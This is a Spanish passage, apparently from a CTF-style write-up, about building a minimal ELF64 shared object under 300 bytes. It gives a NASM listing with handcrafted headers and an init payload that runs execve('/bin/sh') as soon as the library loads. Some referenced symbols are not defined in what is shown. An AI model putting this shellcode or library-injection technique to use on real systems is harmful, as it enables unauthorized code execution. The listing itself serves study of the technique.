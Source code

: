 *   Solapamiento de estructuras.
*   Reutilización de headers para cargar código.
*   Aprovechamiento de nullbytes.

El código con el que conseguimos bajar de los 300 bytes fue el siguiente:
```asm
BITS 64
            ; org     0x0400000
ehdr:                                               ; Elf64_Ehdr
            db      0x7F, "ELF", 2, 1, 1, 0         ;   e_ident
            db      0,0,0,0,0,0,0,0

            dw      3                               ;   e_type  2: EXE   3:shared object
            dw      62                              ;   e_machine
            dd      1                               ;   e_version
            dq      _init_proc                      ;   e_entry
            dq      phdr - $$                       ;   e_phoff
            dq      0                               ;   e_shoff
            dd      0                               ;   e_flags
            dw      ehdrsize                        ;   e_ehsize
            dw      phdrsize                        ;   e_phentsize
            dw      2                               ;   e_phnum
            dw      0x40                            ;   e_shentsize
            dw      0                               ;   e_shnum
            dw      0                               ;   e_shstrndx

; Constante con el tamaño de la cabecera ELF.
ehdrsize    equ     $ - ehdr

; Program Headers.
phdr:                                               ; Elf64_Phdr
            dd      1                               ;   p_type           
            dd      7                               ;   p_flags
            dq      0                               ;   p_offset
            dq      0                               ;   p_vaddr
            dq      0                               ;   p_paddr
            dq      filesize                        ;   p_filesz
            dq      filesize                        ;   p_memsz
            dq      0x1000                          ;   p_align

phdrsize    equ     $ - phdr
            dd      2                               ;   p_type            
            dd      6                               ;   p_flags
            dq      elf64dyn                        ;   p_offset
            dq      elf64dyn                        ;   p_vaddr
            dq      elf64dyn                        ;   p_paddr
            dq      elf64dyn_end - elf64dyn         ;   p_filesz
            dq      elf64dyn_end - elf64dyn         ;   p_memsz
            dq      0x1000                          ;   p_align

; Payload
_init_proc:
    push 0x3b
    pop rax
    cdq
    mov rbx, 0x68732F6E69622F
    push rbx
    mov rdi, rsp
    push 0x632d
    mov rsi, rsp
    push rdx
    push rdi
    mov rsi, rsp
    syscall
```